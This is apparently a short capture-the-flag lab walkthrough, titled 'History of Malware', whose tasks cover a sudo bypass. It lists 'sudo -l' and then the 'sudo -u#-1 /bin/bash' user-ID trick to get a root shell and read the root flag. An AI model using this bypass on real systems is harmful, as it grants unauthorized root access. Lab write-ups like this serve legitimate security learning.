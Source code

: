Walkthrough about History of Malware

January 24, 2022

---------------------------------------------

## Task 1: Deploy

- Deployed!
	- `no answer needed`


## Task 2: Security Bypass


Just try to use this command. This will list the commands that you can use.

```
 sudo -l
```

- What command are you allowed to run with sudo?
	- `/bin/bash`


Just use the command that was given. Then cat the root.txt

```
sudo -u#-1 /bin/bash
```


- What is the flag in /root/root.txt?
	- `-----`